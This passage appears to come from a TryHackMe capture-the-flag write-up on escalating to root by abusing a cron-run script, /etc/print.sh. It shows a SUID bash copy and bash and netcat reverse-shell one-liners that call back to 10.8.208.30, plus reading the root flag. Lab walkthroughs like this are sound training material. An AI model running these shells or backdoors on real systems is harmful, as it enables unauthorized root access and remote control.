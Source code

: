 So here we go, now it's all about which method we want to use. I have listed a few here, just for fun. They all work. Tested :-D

```commandline
$ /tmp/bash -p
bash-4.3# id
uid=1002(lennie) gid=1002(lennie) euid=0(root) groups=1002(lennie)
bash-4.3# cat /root/root.txt 
THM{f963a***a430f210222158****c3d76d}
```

### Option - SUID bit on a file

The content of file `/etc/print.sh`:

```commandline
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

Once the cron job is executed:

```commandline
lennie@startup:~/scripts$ /tmp/rootbash -p
bash-4.3# id
uid=1002(lennie) gid=1002(lennie) euid=0(root) groups=1002(lennie)
bash-4.3# 
```

See also the [GTFOBins](https://gtfobins.github.io) where you can find more information.

### Option - Reverse Shell

On [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) document on [PayloadAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings) you find various options :)

On the host computer, set a listener:

```commandline
nc -lvnp 4321
```

And on the target machine, use the reverse shell you love. Listed a few here.

#### Bash Reverse Shell

Another method on adding stuff in the `/etc/print.sh` file:

```commandline
echo "bash -i >& /dev/tcp/10.8.208.30/4321 0>&1" > /etc/print.sh
```

#### NetCat reverse shell

The content of file `/etc/print.sh`:

```commandline
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 10.8.208.30 4321 > /tmp/f
echo "Done!"
```
